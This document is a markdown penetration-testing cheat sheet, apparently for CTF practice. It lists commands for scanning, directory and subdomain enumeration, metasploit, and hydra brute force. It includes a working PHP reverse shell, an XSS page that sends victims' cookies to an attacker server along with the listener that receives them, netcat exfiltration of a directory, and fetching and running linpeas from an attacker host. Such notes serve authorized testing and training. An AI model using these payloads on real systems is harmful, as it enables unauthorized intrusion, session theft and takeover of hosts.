 ## Network scan with`nmap`:
```bash
nmap -v -sV -O -A --top-ports 1000 -oN nmap_output.txt example.com
```

## Directory enumeration with `dirb`:
```bash
dirb http://example.com /usr/share/wordlists/dirb/common.txt -o dirb_output.txt
```

## Subdomains enumeration with `ffuf`:
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://example.com -H "Host: FUZZ.example.com" -mc 200 -fs 15949 -o ffuf_output.json -of json
```

## Web app scan with `nikto`:
```bash
nikto -h example.com -p 80 -o nikto_output.txt
```

## Exploit with `metasploit`:
```bash
msfconsole

show

search <exploit_name>

use exploit/linux/http/exploit_name

set RHOSTS example.com
set RPORT 80

show payloads
set payload <payload_name>

exploit
```

## PHP reverse shell
### Listener:
```bash
nc -lvnp 4444
```
### Reverse shell:
```php
<?php
$ip = 'x.x.x.x'; // change this to your IP address
$port = 4444; // change this to your listening port
$socket = fsockopen($ip, $port);
if ($socket) {
    $shell = 'uname -a; w; id; /bin/sh -i';
    fwrite($socket, $shell);
    while (!feof($socket)) {
        $command = fgets($socket);
        $output = '';
        if ($command) {
            $output = shell_exec($command);
            fwrite($socket, $output);
        }
    }
    fclose($socket);
}
?>
```

## XSS/CSRF attack
### Serve:
```bash
mkdir xss
cd xss
nano index.html
sudo python3 -m http.server 4444
```
### index.html:
```bash
<html>
  <head>
    <title>CTF</title>
    <script>
      // Collect additional information
      var cookies = document.cookie;
      var userAgent = navigator.userAgent;
      var platform = navigator.platform;
      var language = navigator.language || navigator.userLanguage;
      var screenSize = screen.width + 'x' + screen.height;
      
      // Encode the data to ensure it's safely transmitted
      var data = encodeURIComponent(
        'cookies=' + cookies +
        '&userAgent=' + userAgent +
        '&platform=' + platform +
        '&language=' + language +
        '&screenSize=' + screenSize
      );
      
      // Send the data to your server
      var i = new Image();
      i.src = "http://YOUR_SERVER_IP:5555/?" + data;
    </script>
  </head>
  <body>
    <h1>Hi Admin!</h1>
  </body>
</html>
```
### Listen:
```bash
mkdir cookies
cd cookies
nano index.js
node index.js
```
### index.js:
```bash
const http = require('http');
const url = require('url');

http.createServer((req, res) => {
  const queryObject = url.parse(req.url, true).query;
  console.log('Received Data:', queryObject);
  res.writeHead(200, { 'Content-Type': 'image/png' });
  res.end('');
}).listen(5555, () => {
  console.log('Server listening on port 5555');
});
```

## Login brute-force with `hydra`
### Syntax 1:
```bash
sudo hydra -v -V -d -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt http-post-form://example.com/login"&username=^USER^&password=^PASS^:F=Bad"
```
### Syntax 2:
```bash
sudo hydra -v -V -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt example.com http-post-form "/login:username=^USER^&password=^PASS^=:F=Bad"
```

## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc example.com 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

## Archive
### Compress:
```bash
tar -czvf archive.tar.gz /path/to/directory_or_file
```
### Extract:
```bash
tar -xzvf archive.tar.gz -C /path/to/extract
```

## Privilege escalation with `linpeas`
### Serve:
```bash
mkdir linpeas
cd linpeas
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Download and execute:
```bash
cd /tmp
wget x.x.x.x:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./output.txt
```
